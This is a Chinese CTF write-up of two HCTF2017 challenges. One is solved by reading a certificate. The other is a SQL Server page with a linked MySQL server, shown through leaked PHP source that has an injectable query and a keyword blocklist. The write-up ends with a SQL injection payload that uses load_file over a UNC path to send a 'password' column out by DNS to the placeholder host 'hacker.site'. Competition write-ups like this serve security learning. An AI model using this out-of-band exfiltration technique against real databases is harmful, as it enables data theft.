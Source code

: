 # easy_sign_in

>这个题目真的真的非常简单，连提示都非常的明显就是去查看证书的内容。
>从证书中我们可以得到一条flag in:   123.206.81.217  或许有些浏览器显示的位置不一定是这样. 打开123.206.81.217  就可以看到
>__*flag: hctf{s00000_e4sy_sign_in}*__




# HCTF2017-boring-website


首先扫目录发现有www.zip,下载并打开发现是源码

```php
<?php
echo "Bob received a mission to write a login system on someone else's serve
r, and he he only finished half of the work<br />";
echo "flag is hctf{what you get}<br /><br />";
error_reporting(E_ALL^E_NOTICE^E_WARNING);
try {
$conn = new PDO( "sqlsrv:Server=*****;Database=not_here","oob", "");
}
catch( PDOException $e ) {
die( "Error connecting to SQL Server".$e->getMessage() );
}
#echo "Connected to MySQL<br />";
echo "Connected to SQL Server<br />";
$id = $_GET['id'];
if(preg_match('/EXEC|xp_cmdshell|sp_configure|xp_reg(.*)|CREATE|DROP|declare
|if|insert|into|outfile|dumpfile|sleep|wait|benchmark/i', $id)) {
die('NoNoNo');
}
$query = "select message from not_here_too where id = $id"; //link server: O
n linkname:mysql
$stmt = $conn->query( $query );
if ( @$row = $stmt->fetch( PDO::FETCH_ASSOC ) ){
//TO DO: ...
//It's time to sleep...
}
?>

```
发现应该是`sql server`用`linkserver`来连接`mysql`。所以去查了一波`linkserver`的用法，以及结合注释可得`select * from openquery(mysql,'select xxx')`可以从mysql数据库中查得信息，但是没有回显，sleep函数也被ban了，然后看到`oob`的提示，去查了一波`mysql out-of-band`，发现`load_file`函数可以通过dns通道把所查得的数据带出来。接下来的过程就是十分常见简单的mysql注入的流程。
最终的payload: `/?id=1 union select * from openquery(mysql,'select load_file(concat("\\\\",(select password from secret),".hacker.site\\a.txt"))')`

dnslog 平台可以自己搭也可以用ceye

[mysql out of band](http://www.mottoin.com/96463.html)
